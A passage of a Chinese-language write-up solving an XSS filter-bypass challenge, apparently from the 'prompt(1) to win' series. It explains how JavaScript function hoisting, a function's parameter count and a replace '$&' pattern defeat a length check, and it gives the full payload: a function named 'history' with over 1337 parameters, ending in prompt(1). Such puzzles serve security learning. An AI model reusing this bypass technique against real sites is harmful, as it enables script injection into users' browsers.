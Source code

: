 ```
    '.replace('{{injection}}', input);
}        
```
这里可以看到过滤了一部分符号，而且判断长度必须大于1337，所以用到js变量提升，还用到了一个前面提到的关于replace的匹配技巧。
playload：
```
function history(L,o,r,e,m,I,p,s,u,m,i,s,s,i,m,p,l,y,d,u,m,m,y,t,e,x,t,o,f,t,h,e,p,r,i,n,t,i,n,g,a,n,d,t,y,p,e,s,e,t,t,i,n,g,i,n,d,u,s,t,r,y,L,o,r,e,m,I,p,s,u,m,h,a,s,b,e,e,n,t,h,e,i,n,d,u,s,t,r,y,s,s,t,a,n,d,a,r,d,d,u,m,m,y,t,e,x,t,e,v,e,r,s,i,n,c,e,t,h,e,s,w,h,e,n,a,n,u,n,k,n,o,w,n,p,r,i,n,t,e,r,t,o,o,k,a,g,a,l,l,e,y,o,f,t,y,p,e,a,n,d,s,c,r,a,m,b,l,e,d,i,t,t,o,m,a,k,e,a,t,y,p,e,s,p,e,c,i,m,e,n,b,o,o,k,I,t,h,a,s,s,u,r,v,i,v,e,d,n,o,t,o,n,l,y,f,i,v,e,c,e,n,t,u,r,i,e,s,b,u,t,a,l,s,o,t,h,e,l,e,a,p,i,n,t,o,e,l,e,c,t,r,o,n,i,c,t,y,p,e,s,e,t,t,i,n,g,r,e,m,a,i,n,i,n,g,e,s,s,e,n,t,i,a,l,l,y,u,n,c,h,a,n,g,e,d,I,t,w,a,s,p,o,p,u,l,a,r,i,s,e,d,i,n,t,h,e,s,w,i,t,h,t,h,e,r,e,l,e,a,s,e,o,f,L,e,t,r,a,s,e,t,s,h,e,e,t,s,c,o,n,t,a,i,n,i,n,g,L,o,r,e,m,I,p,s,u,m,p,a,s,s,a,g,e,s,a,n,d,m,o,r,e,r,e,c,e,n,t,l,y,w,i,t,h,d,e,s,k,t,o,p,p,u,b,l,i,s,h,i,n,g,s,o,f,t,w,a,r,e,l,i,k,e,A,l,d,u,s,P,a,g,e,M,a,k,e,r,i,n,c,l,u,d,i,n,g,v,e,r,s,i,o,n,s,o,f,L,o,r,e,m,I,p,s,u,m,I,t,i,s,a,l,o,n,g,e,s,t,a,b,l,i,s,h,e,d,f,a,c,t,t,h,a,t,a,r,e,a,d,e,r,w,i,l,l,b,e,d,i,s,t,r,a,c,t,e,d,b,y,t,h,e,r,e,a,d,a,b,l,e,c,o,n,t,e,n,t,o,f,a,p,a,g,e,w,h,e,n,l,o,o,k,i,n,g,a,t,i,t,s,l,a,y,o,u,t,T,h,e,p,o,i,n,t,o,f,u,s,i,n,g,L,o,r,e,m,I,p,s,u,m,i,s,t,h,a,t,i,t,h,a,s,a,m,o,r,e,o,r,l,e,s,s,n,o,r,m,a,l,d,i,s,t,r,i,b,u,t,i,o,n,o,f,l,e,t,t,e,r,s,a,s,o,p,p,o,s,e,d,t,o,u,s,i,n,g,C,o,n,t,e,n,t,h,e,r,e,c,o,n,t,e,n,t,h,e,r,e,m,a,k,i,n,g,i,t,l,o,o,k,l,i,k,e,r,e,a,d,a,b,l,e,E,n,g,l,i,s,h,M,a,n,y,d,e,s,k,t,o,p,p,u,b,l,i,s,h,i,n,g,p,a,c,k,a,g,e,s,a,n,d,w,e,b,p,a,g,e,e,d,i,t,o,r,s,n,o,w,u,s,e,L,o,r,e,m,I,p,s,u,m,a,s,t,h,e,i,r,d,e,f,a,u,l,t,m,o,d,e,l,t,e,x,t,a,n,d,a,s,e,a,r,c,h,f,o,r,l,o,r,e,m,i,p,s,u,m,w,i,l,l,u,n,c,o,v,e,r,m,a,n,y,w,e,b,s,i,t,e,s,s,t,i,l,l,i,n,t,h,e,i,r,i,n,f,a,n,c,y,V,a,r,i,o,u,s,v,e,r,s,i,o,n,s,h,a,v,e,e,v,o,l,v,e,d,o,v,e,r,t,h,e,y,e,a,r,s,s,o,m,e,t,i,m,e,s,b,y,a,c,c,i,d,e,n,t,s,o,m,e,t,i,m,e,s,o,n,p,u,r,p,o,s,e,i,n,j,e,c,t,e,d,h,u,m,o,u,r,a,n,d,t,h,e,l,i,k,e,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_,_)$&prompt(1)
```
这里用到的是一个特殊的技巧，测试下面的代码：
```
function functionDeclaration(a,b,c) {
    alert('Function declared with ' + functionDeclaration.length + ' parameters');
}
 
 
functionDeclaration(); 
```
返回：
```
alert > Function declared with 3 parameters
```
所以构造这样的代码：
```
if (history.length > 1337) {                                 
   // you can inject any code here
   // as long as it will be executed
   function history(l,o,r,e,m...1338 times...){{injection}}
   prompt(1)
}   
```


